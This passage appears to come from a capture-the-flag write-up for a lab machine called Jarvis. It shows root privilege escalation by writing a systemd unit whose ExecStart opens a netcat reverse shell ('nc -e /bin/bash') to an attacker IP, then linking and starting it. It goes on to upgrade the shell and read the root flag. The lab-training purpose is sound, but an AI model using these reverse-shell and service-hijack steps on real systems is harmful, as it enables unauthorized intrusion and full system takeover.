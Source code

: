 ```
pepper@jarvis:/var/www/html$ cd /home/pepper/
pepper@jarvis:~$ ls
Web  user.txt
pepper@jarvis:~$ echo '[Service]
> Type=notify
> ExecStart=/bin/sh -c "nc -e /bin/bash 10.10.14.16 443"
> KillMode=process
> Restart=on-faillure
> RestartSec=42s
> [Install]
> WantedBy=multi-user.target' > new.service
pepper@jarvis:~$ ls -al
total 36
drwxr-xr-x 4 pepper pepper 4096 Nov 26 08:55 .
drwxr-xr-x 3 root   root   4096 May  9  2022 ..
lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
-rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
drwxr-xr-x 2 pepper pepper 4096 May  9  2022 .nano
-rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
drwxr-xr-x 3 pepper pepper 4096 May  9  2022 Web
-rw-r--r-- 1 pepper pepper  166 Nov 26 08:55 new.service
-r--r----- 1 pepper pepper   33 Nov 25 20:52 user.txt
pepper@jarvis:~$ systemctl link /home/pepper/new.service
Created symlink /etc/systemd/system/new.service -> /home/pepper/new.service.
pepper@jarvis:~$ systemctl start new

```

Very nice, we get the shell, let's upgrade this shell again:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 443
reset
xterm-256color
```

And check our privilege:

```bash
id
whoami
ifconfig
```

And screen the root flag:

```bash
cat /root/root.txt 
```

```
root@jarvis:/# cat /root/root.txt 
30c3002863f01438f53bb3be64a1c669

```

![[Jarvis-10.png]]
